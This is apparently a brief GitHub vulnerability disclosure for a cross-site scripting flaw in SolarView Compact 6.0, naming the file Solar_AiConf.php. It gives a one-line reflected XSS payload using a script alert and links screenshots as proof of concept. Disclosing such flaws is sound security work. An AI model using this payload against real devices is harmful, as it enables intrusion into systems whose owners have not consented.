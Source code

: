 # SolarView_Compact_6.0_xss


### Vulnerability code is Solar_AiConf.php

![image](https://user-images.githubusercontent.com/72059221/169168747-55426da3-9150-4266-b4e3-b0bcfbbdd410.png)



### payload
```
/"><script>alert("XSS")</script>
```


### POC

![image](https://user-images.githubusercontent.com/72059221/169169114-f6b871e6-8b6a-46fa-b007-54588089e2fe.png)



![image](https://user-images.githubusercontent.com/72059221/169169170-0936209d-bad8-4c0b-99f5-f382774670f9.png)


